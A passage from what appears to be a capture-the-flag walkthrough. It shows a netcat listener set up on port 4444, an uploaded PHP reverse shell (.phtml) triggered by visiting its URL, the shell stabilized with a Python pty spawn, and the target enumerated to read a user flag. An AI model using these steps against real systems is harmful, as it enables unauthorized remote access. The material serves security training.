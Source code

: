 ## Step 4.2: Set up a Netcat Listener
On your local machine, start a listener to catch the reverse shell:

```bash
nc -lvnp 4444
```

Explanation of the `nc` options:
- `-l`: Listen mode.
- `-v`: Verbose mode.
- `-n`: No DNS lookups.
- `-p`: Specifies the port number.

## Step 4.3: Trigger the Reverse Shell
After the reverse shell is uploaded to:

```bash
http://<target_ip>:3333/internal/uploads/test-revshell.phtml
```

Visit the URL to trigger it. You should receive a shell back in your Netcat listener.

---

# 5. Post-Exploitation and Enumeration

Once we have a reverse shell, start enumerating the system for further exploitation.

## Step 5.1: Stabilize the Shell
To make the reverse shell interactive, spawn a TTY:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Set the terminal environment:

```bash
export TERM=xterm
```

## Step 5.2: Explore the File System
Enumerate the target machine for interesting files. You can start by checking the home directories:

```bash
ls /home/
ls -al
cd /home/bill
getfacl user.txt
file user.txt
cat user.txt
```

---
